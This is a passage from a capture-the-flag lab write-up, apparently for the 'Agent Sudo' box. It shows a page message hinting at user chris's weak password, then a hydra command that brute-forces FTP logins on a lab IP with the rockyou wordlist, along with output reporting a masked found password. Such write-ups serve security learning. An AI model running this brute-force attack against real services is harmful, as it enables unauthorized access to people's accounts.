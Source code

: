 ![flag](/assets/agentsudoctf/burp-intruder-found.png)

The page says
> Attention chris,
> 
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
> 
> From,
> Agent R

Now we have chris's name and know his password is weak it's time to try brute forcing it.
We know we're cracking FTP because the BOX asks for the FTP password next.

### FTP
```shell
$ hydra -l "chris" -P /usr/share/wordlists/rockyou.txt ${TARGETIP} ftp -t 20
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-13 21:17:17
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking ftp://10.10.203.67:21/
[STATUS] 165.00 tries/min, 165 tries in 00:01h, 14344234 to do in 1448:55h, 20 active
[21][ftp] host: 10.10.203.67   login: chris   password: XXXXXXX
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-13 21:18:53
```
#### Hydra flags